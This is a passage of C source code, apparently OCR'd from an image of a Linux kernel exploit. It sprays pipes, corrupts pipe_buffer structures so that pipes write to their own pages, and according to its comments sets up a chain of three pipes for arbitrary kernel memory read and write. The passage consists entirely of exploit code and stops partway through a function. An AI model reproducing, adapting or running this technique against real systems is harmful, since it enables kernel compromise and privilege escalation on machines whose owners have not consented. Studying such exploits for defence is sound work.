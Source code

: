 ```c
        if (i == orig_pid || i == victim_pid 
            || i == snd_orig_pid || i == snd_vicitm_pid
            || i == self_2nd_pipe_pid) {
            continue;
        }

        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));
        if (page_ptr == evil_pipe_buf.page) {
            self_3rd_pipe_pid = i;
            printf("\033[32m\033[1m[+] Found another self-writing pipe:\033[0m"
                    "%d\n", self_3rd_pipe_pid);
            break;
        }
    }

    if (self_3rd_pipe_pid == -1) {
        err_exit("FAILED to build a self-writing pipe!");
    }

    /* overwrite the 4th pipe_buffer to this page too */
    puts("[*] hijacking the 4th pipe_buffer on page to itself...");
    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;

    write(pipe_fd[snd_vicitm_pid][1],buf,TRD_PIPE_BUF_SZ-sizeof(evil_pipe_buf));
    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));

    /* check for third-level victim pipe */
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid 
            || i == snd_orig_pid || i == snd_vicitm_pid
            || i == self_2nd_pipe_pid || i== self_3rd_pipe_pid) {
            continue;
        }

        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));
        if (page_ptr == evil_pipe_buf.page) {
            self_4th_pipe_pid = i;
            printf("\033[32m\033[1m[+] Found another self-writing pipe:\033[0m"
                    "%d\n", self_4th_pipe_pid);
            break;
        }
    }

    if (self_4th_pipe_pid == -1) {
        err_exit("FAILED to build a self-writing pipe!");
    }

    puts("");
}

struct pipe_buffer evil_2nd_buf, evil_3rd_buf, evil_4th_buf;
char temp_zero_buf[0x1000]= { '\0' };

/**
 * @brief Setting up 3 pipes for arbitrary read & write.
 * We need to build a circle there for continuously memory seeking:
 * - 2nd pipe to search
 * - 3rd pipe to change 4th pipe
 * - 4th pipe to change 2nd and 3rd pipe
 */
void setup_evil_pipe(void)
{
```